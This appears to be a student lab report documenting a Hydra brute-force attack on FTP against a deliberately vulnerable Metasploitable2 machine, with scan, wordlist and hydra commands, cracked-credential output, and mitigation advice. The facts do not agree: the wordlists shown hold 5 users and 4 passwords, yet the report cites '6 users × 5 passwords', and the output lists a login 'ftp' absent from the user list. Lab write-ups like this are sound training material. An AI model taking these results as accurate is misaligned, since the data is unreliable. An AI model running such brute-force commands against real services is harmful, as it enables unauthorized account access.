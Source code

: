 # 🔐 Hydra FTP Brute-Force Attack Lab Report

**Author:** Abdulrahman Said  
**Date:** 06/29/2025
**Target IP:** 192.168.21.128  
**Service:** FTP (Port 21)  
**Tools Used:** hydra, nmap, echo, Linux CLI

---

## 📌 Executive Summary

This lab demonstrates the use of Hydra, a powerful password-cracking tool, to perform a brute-force attack against the FTP service on a vulnerable Metasploitable2 machine. The attack succeeded in discovering 5 valid login credentials.

---

## 🗺️ Network Topology

```
+------------------+              +-------------------------+
|  Kali Linux      | ------------|  Metasploitable2 (FTP)  |
|  192.168.21.X     |  FTP: 21   |  192.168.21.128         |
+------------------+              +-------------------------+
```

---

## 🛠️ Tools Description

- **Hydra:** A fast and flexible brute-force tool that supports many protocols.  
- **Nmap:** Used to confirm FTP (port 21) is open on the target machine.  
- **Echo + Redirection (>):** Used to create custom username and password lists.

---

## 📋 Steps Performed

### 1. Scan the Target for FTP
```bash
nmap -p 21 192.168.21.128
```
**Result:**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```

### 2. Create Wordlists
```bash
echo -e "msfadmin\nroot\ntoor\nadmin\nuser" > users.txt
echo -e "msfadmin\n123456\npassword\nadmin" > passwords.txt
```

### 3. Run Hydra Attack
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.21.128
```

---

## ✅ Hydra Output Summary
```bash
[21][ftp] host: 192.168.21.128   login: ftp       password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: root
[21][ftp] host: 192.168.21.128   login: msfadmin  password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: toor
[21][ftp] host: 192.168.21.128   login: ftp       password: 123456
```

---

## 🧠 Interpretation

The FTP service accepts weak and default credentials, including common names like ftp, msfadmin, toor, and 123456.  
Hydra tested 30 login attempts across 6 users × 5 passwords in seconds.

---

## ⚠️ Risk Assessment

| Risk                  | Description                             | Impact | Mitigation                          |
|-----------------------|-----------------------------------------|--------|-------------------------------------|
| Weak FTP Credentials  | Default/weak passwords easily cracked   | High   | Use strong, unique passwords        |
| Brute-force Vulnerable| Service does not rate-limit login tries | High   | Implement rate limiting or lockouts|
| FTP Unencrypted       | Credentials sent in plain text          | High   | Replace FTP with SFTP or disable FTP|

---

## 🛡️ Defense Recommendations

- Enforce strong password policies.  
- Disable FTP if not needed, or replace it with secure alternatives like SFTP.  
- Monitor logs for brute-force attempts.  
- Use tools like fail2ban to block repeated failed login attempts.

---

## 📎 Notes

This attack was conducted in a controlled lab environment.  
All actions were ethical and educational, targeting a deliberately vulnerable machine.
